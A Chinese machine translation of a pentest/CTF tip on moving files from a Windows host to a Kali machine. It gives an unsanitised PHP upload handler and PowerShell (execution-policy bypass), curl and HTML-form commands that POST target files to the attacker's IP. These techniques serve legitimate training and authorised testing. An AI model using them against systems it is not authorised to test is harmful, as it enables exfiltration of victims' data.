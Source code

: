 # [提示]使用 PHP 将文件从 Windows 上传到 Kali

> 原文：<https://infosecwriteups.com/tip-uploading-files-from-windows-to-kali-using-php-63aadde872a9?source=collection_archive---------0----------------------->

![](img/8cf8f3c008625f409611e61a56bcdb31.png)

# 问题

当您执行 pentest 或 CTF 时，可能会遇到需要将文件从 Windows box 传输到 Kali Linux 的情况。例如，您在 Windows box 中本地运行 Bloodhound，并需要将其输出传输到您的机器，或者您发现了非常有趣的 Microsoft Office 文件，如。多克和。xls，但当时你只有命令行权限。你可以考虑使用 PHP 脚本通过你的网络服务器上传文件。就我个人而言，我经常在玩 CTF 或 HTB 机器时使用这个。

# 解决方法

## 卡利盒

首先，创建一个 PHP 脚本`upload.php`来处理上传部分。

```
<?php
$target_dir = "uploads/";
$target_file = $target_dir . basename($_FILES["targetfile"]["name"]);
move_uploaded_file($_FILES["targetfile"]["tmp_name"], $target_file)
?>
```

对于 web 服务器，使用 Kali 默认自带的`Apache2`。

```
**# Running Apache2 Server**
service apache2 start
```

然后，将`upload.php`脚本放在下面的 web 目录下。

```
/var/www/html/web/       **# I added 'web' directory for demo purpose**
```

正如您从`upload.php`脚本中注意到的，我们还需要创建一个名为`uploads`的目录来收集上传的文件。在`/var/www/html/web`目录下创建它，并配置适当的所有权和写权限。

```
**# Creating 'uploads' Directory**
mkdir /var/www/html/web/uploads**# Configuring Directory Ownership with 'www-data' User**
chown www-data:www-data /var/www/html/web/uploads**# Configuring Directory with Write Permissions**
chmod 766 /var/www/html/web/uploads
```

完成所有操作后，您应该已经建立了如下所示的 web 目录:

![](img/a4af606fed399c06ab091b28c59d825c.png)

## Windows 框

从窗盒来说很简单。我们可以使用一个性感的 PowerShell 一行程序来完成这项工作。

```
**# PowerShell**
powershell -nop -exec bypass Invoke-RestMethod -Uri [http://<*Your Kali IP*>/web/upload.php](http://10.10.14.29/php/upload.php) -Method Post -Infile 'c:\<*Path to the Target File*>'**# Warning: If the 'Invoke' command is globally restricted, this would NOT work.**
```

或者

如果机器是 Windows 10 build 17063 或更高版本，我们可以使用`curl.exe`来使用更性感的一行程序。(最后，微软开始在 Windows :P 中加入“黑客”工具)

```
**# Curl**
curl -H Content-Type:"multipart/form-data" --form targetfile=@"c:\<*Path to the Target File*>" -X POST -v [http://<*Your Kali IP*>/web/upload.php](http://10.10.14.29/php/upload.php)
```

或者

如果是没有 PowerShell 和/或`curl.exe`的旧 Windows box，我们可以创建下面的`html`文件，通过浏览器上传文件。(在我们的 web 根目录中找到这个`html`文件)

```
**# Upload.html**<html>
<head></head>
<body>
<form action="[http://<Your Kali IP>/web/upload.php](http://192.168.102.74/upload.php)" method="POST" enctype="multipart/form-data">
<br><br>
Choose A File:<br>
<input type="file" name="targetfile"><br>
<input type="submit" name="submit" value="upload">
</form>
</body>
</html>
```

尽情享受吧！

![](img/194f8366961a52737ff7e0e428e6bad9.png)